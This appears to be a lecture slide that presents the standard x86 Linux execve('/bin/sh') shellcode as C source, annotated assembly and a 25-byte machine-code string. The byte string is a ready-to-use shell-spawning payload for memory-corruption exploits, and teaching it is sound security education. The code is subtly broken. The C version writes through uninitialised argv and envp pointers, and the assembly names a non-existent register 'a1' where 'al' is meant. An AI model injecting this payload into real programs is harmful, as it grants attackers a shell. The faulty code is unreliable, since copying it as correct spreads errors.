

# Sample Shellcode
C code
int main() {
   char command[] = "/bin/sh\x00";
   char ** argv, ** envp; // arrays that contain char pointers

   argv[0] = command; // only argument is the command
   argv[1] = 0; // null terminate the argument array
   envp[0] = 0; // null terminate the environment array

   execve(command, argv, envp);
}
Assembly instructions
; execve(const char *filename, char*const argv[], char* const envp[])
xor eax, eax    ; zero out eax
push eax        ; push some nulls for string termination
push 0x68732f2f ; push "//sh" to the stack
push 0x6e69622f ; push "/bin" to the stack
mov ebx, esp    ; put the address of "/bin//sh" into ebx, via esp
push eax        ; push 32-bit null terminator to stack
mov edx, esp    ; empty array for envp
push ebx        ; push string addr to stack above null terminator
mov ecx, esp    ; this is the argv array with string ptr
mov a1, 11      ; syscall #11
int 0x80        ; do it
Machine code (i.e. shellcode)
31 c0 50 68 2f 2f 73 68 68 2f 62 69 6e 89 e3 50 89 e2 53 89 e1 b0 0b cd 80